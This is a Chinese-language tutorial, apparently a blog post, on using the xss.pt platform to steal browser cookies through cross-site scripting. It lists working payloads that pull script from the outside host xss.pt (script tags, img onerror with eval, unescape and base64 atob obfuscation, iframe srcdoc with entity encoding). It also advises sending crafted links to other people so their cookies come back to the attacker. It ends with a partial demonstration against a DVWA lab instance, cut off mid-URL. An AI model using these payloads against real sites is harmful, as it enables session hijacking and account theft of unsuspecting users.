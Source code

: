 下面的其他模块，各自代表着xss的其他种攻击，具体可在“配置代码”这步选完进去后，在左边的“公共模块”里点击，查看模块信息

以下为部分截图，只要将其中一种代码插入怀疑出现XSS的地方，发给别人，如果有人点击该地址，我们就可在"项目内容"中查看其cookie值

其中的代码看情况来用。下面写出我比较常用，直接插入构造，访问后cookie可返回到“项目内容”的代码。

图片插件一：  https://xss.pt/GFLXp.jpg

<Img sRC=https://xss.pt/GFLXp.jpg>

  

一、

1.<sCRiPt sRC=//xss.pt/GFLX></sCrIpT>

  

2.标准代码

</tExtArEa>'"><sCRiPt sRC=https://xss.pt/GFLX></sCrIpT>

  

二、IMG 标签

1.

</tEXtArEa>'"><img src=# id=xssyou style=display:none onerror=eval(unescape(/var%20b%3Ddocument.createElement%28%22script%22%29%3Bb.src%3D%22https%3A%2F%2Fxss.pt%2FGFLX%22%3B%28document.getElementsByTagName%28%22HEAD%22%29%5B0%5D%7C%7Cdocument.body%29.appendChild%28b%29%3B/.source));//>

  

2.<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='https://xss.pt/GFLX';>

  

3.通杀火狐谷歌360

<img src=x onerror=eval(atob('cz1jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtib2R5LmFwcGVuZENoaWxkKHMpO3Muc3JjPSdodHRwczovL3hzcy5wdC9wNzBlPycrTWF0aC5yYW5kb20oKQ=='))>

  

三、标签iframe等

1.实体10进制编码↓

<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。<sCRiPt sRC="https://xss.pt/GFLX"></sCrIpT>>

  

2.实体16进制编码

<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。<sCRiPt sRC="https://xss.pt/GFLX"></sCrIpT>>

这里我用到dvwa靶场的medium级别。为了更好的验证，我使用了username为1337的用户进行登录。

这里我先构造js代码测试出这里存在反射型xss漏洞

然后构造链接

http://192.168.1.3/dvwa/vulnerabilities

/xss_r/?name=%3Ciframe WIDTH%3D0HEIGHT%3D0 srcdoc%3D%E3%80%82%E3%80%82%E3%80%82%E3

%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82

%E3%80%82%E3%80%82%26%23x3C%3B%26%23x73
